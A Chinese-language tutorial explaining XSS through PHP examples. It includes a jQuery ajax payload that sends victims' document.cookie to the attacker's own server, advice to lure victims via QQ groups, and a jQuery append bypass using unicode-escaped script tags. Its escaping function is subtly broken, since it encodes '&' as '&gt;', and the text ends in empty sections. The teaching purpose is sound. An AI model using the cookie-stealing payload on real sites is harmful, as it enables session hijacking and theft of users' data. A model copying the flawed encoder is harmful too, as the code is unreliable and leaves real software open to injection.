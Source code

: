 
## 概念

XSS是最常见的一种web攻击方式，它指的是恶意用户把代码注入到其他用户要访问的网站中。

站在前端的角度，可以理解为将js代码注入。

```php
<?php
    $username="鹏仔";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo $username;?>
        </div>
    </body>
</html>
```

如果你的用户名，起名称的时候，带上script标签呢？我们知道，浏览器遇到html中的script标签的时候，会解析并执行标签中的js脚本代码，那么如果你的用户名称里面含有script标签的话，就可以执行其中的代码了。代码如下：

```php
<?php
    $username="<script>alert('侯医生');</script>";
?>
```

如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：

```javascript
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```

再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。

## 防范

最简单的解决方法，就是将输出数据进行转义。

比如，上述的XSS攻击的本质，就是因为浏览器遇到了`<script>`标签，然后才会执行其中的脚本。

因此，我们只需要对`<script>`标签进行转义，则浏览器就不会执行其中的恶意脚本。

```php
<?php
    $username="<script>alert('鹏仔');</script>";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <!--我们将输出的后端变量，转义之后再输出，则可以避免被注入代码-->
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
    </body>
</html>
```

虽然，成功防止了恶意脚本的执行，但是标签还是会显示出来，影响用户体验。

> 在 Node.js 中，可以用 htmlEncode() 。
```js
function htmlEncode(str) {
    var s = "";
    if (str.length == 0) return "";  
    s = str.replace(/&/g, "&gt;");
    s = s.replace(/</g, "&lt;");
    s = s.replace(/>/g, "&gt;");
    s = s.replace(/ /g, "&nbsp;");
    s = s.replace(/\'/g, "&#39;");
    s = s.replace(/\"/g, "&quot;");
    s = s.replace(/\n/g, "<br>");
    return s;
}
```

## 升级版XSS

### apend的利用

通常情况下，直接给innerHTML添加一段js脚本，是无法执行的。

但是，jQuery中的`append()`方法却可以实现（这涉及到jQuery源码）。

```php
<?php
    $username="\u003cscript\u003ealert('ok');";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
        <script src="https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"></script>
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
        <div>版权所有：<span id="username_info"></span></div>
        <script>
            $('#username_info').append("<?php echo htmlentities($username); ?>");
        </script>
    </body>
</html>
```

虽然，我们对输出的数据进行了转义，但是转义函数却无法识别经过伪装的`<script>`标签，最终js脚本还是会执行。

### image标签的利用




## 升级版防范策略












